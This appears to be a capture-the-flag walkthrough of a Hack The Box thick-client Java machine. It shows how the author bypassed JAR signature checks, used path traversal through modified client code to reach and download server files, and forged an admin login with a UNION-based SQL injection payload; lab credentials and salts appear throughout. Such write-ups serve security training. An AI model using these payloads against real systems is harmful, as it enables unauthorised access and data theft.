 
### **Scenario Overview**

- Discovered files via anonymous FTP:
    - _fatty-client.jar_
    - _note.stxt, note2.txt, note3.txt_

- Key info:
    
    - Server runs on port _1337_ (previously 8000)
    - App uses _Java 8_
    - Credentials: `qtc / clarabibi`

---

### **Initial Configuration Fixes**

- App fails with _Connection Error!_ on login due to incorrect port.
- _Wireshark_ confirms connection attempt to `server.fatty.htb` on port 8000.
- Fix: Add entry to `hosts` file:
```txt
10.10.10.174    server.fatty.htb
```
- Extracted JAR file reveals port 8000 hardcoded in `beans.xml`.
- Also discovered: secret value `clarabibiclarabibiclarabibi`.


---

### **JAR Signature Bypass**

- Modifying JAR fails due to SHA-256 mismatch in `MANIFEST.MF`.
- Fix:
    - Remove hash entries in `MANIFEST.MF`
    - Delete `1.SF`, `1.RSA` from `META-INF`
    - Rebuild JAR:
```bash
jar -cmf META-INF/MANIFEST.MF ../fatty-client-new.jar *
```

---

### **Access via Client GUI**

- Successful login as user `qtc`.
- _Profile → Whoami_ confirms user role is _user_.
- Some features (e.g., _ServerStatus_) restricted to admins.
- Notes reveal:
    - _security.txt_: Critical issues remain unfixed.
    - _dave.txt_: Admin users removed from DB; SQLi mitigation via timeouts.


---

### **Path Traversal Vulnerability**

- File browser allows folder selection and file viewing.
- Attempted payload `../../../../etc/passwd` fails due to `/` filter.
- Decompiled code shows:
    - Folder name is passed via:
```java
invoker.showFiles("configs");
```
- Modified to:
```java
invoker.showFiles("..");
```
- Recompiled class files and rebuilt JAR:
```bash
javac -cp fatty-client-new.jar .../ClientGuiTest.java
jar -cmf META-INF/MANIFEST.MF traverse.jar .
```

- Successful access to upper directories:
	- Found _fatty-server.jar_, _start.sh_
	- _start.sh_: Shows server is running in Alpine Docker container

---

### **File Download via Open Function**

- Modified `Invoker.java` to download selected files:
```java
FileOutputStream fos = new FileOutputStream(desktopPath);
fos.write(response.getContent());
```
- Rebuilt and downloaded _fatty-server.jar_

---

### **SQL Injection in Login Function**

#### **Server-Side Logic**

- Found in: `FattyDbSession.class → checkLogin()`
- Executes:
```java
SELECT id,username,email,password,role FROM users WHERE username='...'
```
- No sanitization of `username`
- Password compared using:
```java
sha256(username + password + "clarabibimakeseverythingsecure")
```

#### **SQLi Discovery**

- Injected `qtc'` → triggers SQL syntax error
- Error logs found in `../logs/error-log.txt` via path traversal
- Confirmed SQLi vulnerability

---

### **Bypassing Login via SQL Injection**

#### **Normal Authentication Logic**

- New user object created from first record in query result
- Password from DB is hashed:
```java
sha256("qtc" + "clarabibi" + "clarabibimakeseverythingsecure")
```
- Client sends:
```java
sha256(username + password + fixed_salt)
```

#### **SQLi Exploit via UNION Injection**

- Used payload in `username` field:
```sql
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```
- Set plaintext password to `abc`
- Modified `User.java` to disable password hashing
- Final SQL executed by server:
```sql
SELECT id,username,email,password,role FROM users WHERE username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'
```
- Server compares password and allows login as **admin**


---

### **Key Takeaways**

- Thick clients using 3-tier architecture still vulnerable to _web-specific attacks_
- _JAR signature validation_ can be bypassed to edit client behavior
- _Path Traversal_ enabled enumeration and file download
- _SQL Injection_ vulnerability allowed _admin-level access_
- _Reverse engineering_ + _static/dynamic analysis_ of JAR enabled full exploitation path